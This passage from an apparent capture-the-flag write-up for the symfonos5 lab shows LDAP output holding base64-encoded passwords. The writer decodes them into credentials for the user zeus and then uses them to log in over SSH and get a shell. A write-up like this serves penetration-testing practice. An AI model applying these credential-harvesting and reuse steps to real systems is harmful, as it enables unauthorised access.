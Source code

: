 ```bash
description: LDAP administrator
userPassword:: e1NTSEF9VVdZeHZ1aEEwYldzamZyMmJodHhRYmFwcjllU2dLVm0=

# zeus, symfonos.local
dn: uid=zeus,dc=symfonos,dc=local
uid: zeus
cn: zeus
sn: 3
objectClass: top
objectClass: posixAccount
objectClass: inetOrgPerson
loginShell: /bin/bash
homeDirectory: /home/zeus
uidNumber: 14583102
gidNumber: 14564100
userPassword:: Y2V0a0tmNHdDdUhDOUZFVA==
mail: zeus@symfonos.local
gecos: Zeus User

# search result
search: 2
result: 0 Success

# numResponses: 4
# numEntries: 3
```
This output provides two sets of creds, once decoded from base64.
- `admin:{SSHA}UWYxvuhA0bWsjfr2bhtxQbapr9eSgKVm`
- `zeus:cetkKf4wCuHC9FET`

It looks like the admin password is protected with a salt, so that one won't be much use. However the second pair of credentials may be useful.

### 3. Get a shell
Log in over ssh.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ ssh zeus@192.168.34.156       
The authenticity of host '192.168.34.156 (192.168.34.156)' can't be established.
ECDSA key fingerprint is SHA256:0LrOVGfXWfj1Vtdo1krp85ZDlnsb3DDJFap9cOF5WoA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.34.156' (ECDSA) to the list of known hosts.
zeus@192.168.34.156's password: 
Permission denied, please try again.
zeus@192.168.34.156's password: 
Linux symfonos5 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Feb  5 06:14:43 2020 from 172.16.1.1
zeus@symfonos5:~$ id
uid=1000(zeus) gid=1000(zeus) groups=1000(zeus),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```
